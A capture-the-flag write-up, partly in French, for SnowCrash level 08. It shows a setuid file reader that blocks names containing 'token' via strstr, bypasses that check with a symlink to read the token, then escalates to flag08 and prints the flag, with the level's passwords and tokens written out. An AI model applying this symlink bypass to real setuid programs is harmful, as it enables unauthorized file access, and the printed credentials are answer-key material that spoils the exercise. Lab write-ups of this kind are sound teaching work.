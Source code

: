 # LEVEL 08

**LOGIN: level08**

**PASSWORD: fiumuikeil55xe9cu4dood66h**

 ----
 
 ```
 ls -l ; echo ; file level08
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbe40aba63b7faec62e9414be1b639f394098532f, not stripped
```
```
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
level08@SnowCrash:~$ echo toto > test
level08@SnowCrash:~$ ./level08 test
toto

```

Le binaire `level08` permet de lire le contenu d'un fichier, mais il y'a une sécurité protegeant le fichier `token`...

```
ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                              = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)          = 27
exit(1 <unfinished ...>
```

... apparement un simple `strstr` sur le nom du fichier. 

```
level08@SnowCrash:~$ ln -s token exploit
level08@SnowCrash:~$ ./level08 exploit
quif5eloekouj29ke0vouxean
```
```
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

**TOKEN: quif5eloekouj29ke0vouxean**



